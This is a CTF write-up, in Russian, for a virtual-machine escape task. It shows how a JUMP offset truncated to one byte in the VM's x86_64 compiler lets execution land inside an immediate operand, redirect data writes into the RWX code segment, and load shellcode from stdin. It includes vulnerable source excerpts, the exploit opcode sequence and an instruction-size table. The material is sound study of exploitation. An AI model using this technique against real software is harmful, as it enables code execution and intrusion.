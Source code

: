 ![Task](task.png)

Таск на побег из виртуальной машины.
Программа может скомпилировать свои инструкции в стандартные инструкции x86_64 и запустить их в RWX сегменте (`0x400000000`). Данные хранятся в отдельном RW сегменте (`0x300000000`). Указатель на данные хранится в регистре `R15`, любое обращение к данным происходит через этот регистр. Машина поддерживает чтение символов из stdin в память через опкод `IOIN`.

# Уязвимость
Рассмотрим компиляцию инструкции `JUMP`:

```cpp
void JUMP::set(byte* code_mem, size_t pos) {
  value = code_mem[pos+1];
}

int JUMP::compile(byte* memory,size_t pos) {
  byte* current = Interpreter::code_memory+Interpreter::ip+2; //start opcode to count which number of bytes we should jump
  size_t jump_value = 0;
  for(size_t i = 0; i < value; i++) {
    byte opcode = *current;
    jump_value+=Interpreter::handlers.at(opcode)->get_compiled_size();
    current+=Interpreter::handlers.at(opcode)->get_size();
  }
  memory[pos++] = 0xeb;
  memory[pos] = jump_value-2;
  return 2;
}
```

Для того, чтобы рассчитать смещение по которому нужно прыгнуть в режиме выполнения машинного кода, компилятор проходит по каждой из перепрыгиваемых виртуальных инструкций и суммирует их размер после компиляции (`->get_compiled_size()`).
Затем это 8-байтовое значение записывается в память как... байт. Этот байт можно переполнить и перепрыгнуть на нелегитимный адрес, например, в середину другого опкода.

# Экплуатация
Задача - получить такой `jump_value`, чтобы в результате переполнения опкод `jmp` прыгал в середину другого опкода, в место, где будут контролируемые нами данные.
Для хранения контролируемых данных я использую опкод `MOVRM`, так как он позволяет разместить 4 байтовое число в скомпилированном коде:
```cpp
int MOVRM::compile(byte* memory,size_t pos) {
  memory[pos++] = 0x49;
  memory[pos++] = 0x8d;
  memory[pos++] = 0x87; //lea rax, [r15+addr], r15 contains data memory;
  *(uint32_t*)(memory+pos) = addr;
  pos+=4;
  ...
```

В самих контролируемых данных будет инструкция `mov R15, RAX`, так как на момент старта выполнения в регистре `RAX` хранится указатель на сегмент кода. Соответственно, опкод `IOIN` будет записывать данные из stdin в секцию кода.

Методом проб и ошибок получилось подобрать нужное смещение и нужные опкоды после `JUMP` для того, чтобы прыгнуть внутрь `MOVRV`:
```
JUMP,0x21
MOVRR,0,0
MOVRR,0,0
MOVRV,1,0xc7894990
IOIN,ff,1c
IOIN,0,0
IOIN,0,0
IOIN,0,0
...
```

Для облегчения задачи можно составить таблицу размеров инструкций после компиляции:
```
MOVRR = 2
MOVRV = 5
MOVRM = 9
MOVMR = 9
ADDRR = 2
ADDRV = 6
XORRR = 2
XORRV = 6
CMPRR = 2
JUMP  = 2
JE    = 2
JL    = 2
IOOUT = 21
IOIN  = 17
```

`MOVRR` в данном случае используется для отступов.

Вот, что мы имеем в gdb:
![gdb](gdb.png)
![gdb2](gdb2.png)

Далее записываем шеллкод в stdin. Вот и все.
